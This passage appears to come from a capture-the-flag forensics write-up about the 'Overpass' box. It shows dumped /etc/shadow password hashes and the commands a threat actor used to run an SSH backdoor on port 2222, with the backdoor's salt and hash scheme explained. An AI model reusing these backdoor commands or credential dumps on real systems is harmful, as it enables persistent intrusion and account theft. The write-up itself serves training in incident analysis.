 ```bash
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

---

### Persistence

With administrative access on Overpass's server, the TA sought to establish a backdoor as the `james` user leveraging the SSH protocol.

The TA cloned the [`ssh-backdoor`](https://github.com/NinjaJc01/ssh-backdoor) Github repository, generated an SSH public/private key pair (`/home/james/.ssh/id_rsa`), and then ran the `ssh-backdoor` backdoor executable, which was served on TCP port 2222.

```bash
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```

The TA executed the `ssh-backdoor` executable with the flag `-a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`.  According to the executable's source code, this is the `hash` flag.

```go
...[SNIP]...
33 flaggy.String(&hash, "a", "hash", "Hash for backdoor")
...[SNIP]...
```

When attempting to the access the SSH backdoor, the user sends a password. This password is salted with the constant value `1c362db832f3f864c8c2fe05f2002a05` (password concatenated with salt), hashed with the SHA-512 algorithm, and then compred to the hash from the `-a` flag.
